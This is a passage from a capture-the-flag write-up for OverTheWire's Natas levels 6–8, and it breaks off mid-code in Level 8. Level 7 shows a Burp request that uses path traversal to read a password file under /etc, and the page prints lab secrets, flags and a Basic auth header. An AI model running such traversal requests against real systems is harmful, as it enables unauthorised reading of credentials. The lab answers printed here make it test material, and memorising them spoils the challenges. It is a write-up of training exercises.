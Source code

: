 ## Level 6

This challenge presents us with a form to submit a secret with, and also provides a link to view the source code of the function. In the source code we see it is including a `includes/secret.inc`. when navigating to that page and viewing the source we are given the secret to submit. After submitting the secret we get the flag. 

{% tabs %}
{% tab title="Secret" %}
```
FOEIUWGHFEEUHOFUOIU
```
{% endtab %}
{% tab title="Flag" %}
```
7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
```
{% endtab %}
{% endtabs %}
## Level 7

On this challenge we see two href's using `index.php?page=<page>` which screams LFI on basic challenges like this. Using the following burp request we can read the file `/etc/natas_webpass/natas8`. 

{% tabs %}
{% tab title="Burp Request" %}
```HTTP
GET /index.php?page=../../../../../etc/natas_webpass/natas8 HTTP/1.1
Host: natas7.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://natas7.natas.labs.overthewire.org/
Authorization: Basic bmF0YXM3Ojd6M2hFRU5qUXRmbHpnblQyOXE3d0F2TU5mWmRoMGk5
Connection: close
Upgrade-Insecure-Requests: 1
```
{% endtab %}
{% tab title="Flag" %}
```
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
```
{% endtab %}
{% endtabs %}
## Level 8

We are given another secret submission form as well as the source code. This time they are using a custom encoding function and checking it against a pre-encoded string. The secret validation code is shown below, as well as my decoding script. Running this gives us the secret.

{% tabs %}
{% tab title="Secret Submission" %}
```php
<?

$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
```